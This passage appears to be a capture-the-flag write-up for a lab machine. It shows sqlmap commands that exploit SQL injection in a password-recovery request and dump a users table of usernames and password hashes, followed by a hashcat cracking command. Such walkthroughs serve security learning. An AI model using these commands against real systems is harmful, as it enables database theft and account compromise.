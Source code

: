 Since we are kindof stuck, we can test the other website for SQLi on the `password recovery`--> it seems to be vulnerable!!

==> We can then capture the request and use `sqlmap`to exploit it
## Exploitation
Using sqlmap we find 2 databases 

```bash
sqlmap -r request --batch --dbs

available databases [2]:
[*] information_schema
[*] monitorsthree_db
```

We can then use `sqlmap`again to see the tables and then dump their content

```bash
sqlmap -r request --batch -level 5 --risk 3 --threads 10 -D monitorsthree_db --tables

Database: monitorsthree_db
[6 tables]
+---------------+
| changelog     |
| customers     |
| invoice_tasks |
| invoices      |
| tasks         |
| users         |
+---------------+
```

And we can then dump the content of the `users`table:

```bash
sqlmap -r request --batch -level 5 --risk 3 --threads 10 -D monitorsthree_db -T users --dump

sqlmap -r request --batch -level 5 --risk 3 --threads 10 -D monitorsthree_db -T users -C "username,password" --dump

Database: monitorsthree_db
Table: users
[2 entries]
+-----------+----------------------------------+
| username  | password                         |
+-----------+----------------------------------+
| janderson | 1e68b6eb86b45f6d92f8f292428f77ac |
| admin     | 31a181c8372e3afc59dab863430610e8 |
+-----------+----------------------------------+
```

**IT TAKES A LOT OF TIME** but after a long time we get some hashes and we can crack them using hashcat:

```bash
hashcat -m 0 cacti_hash /usr/share/wordlists/rockyou.txt.gz
```
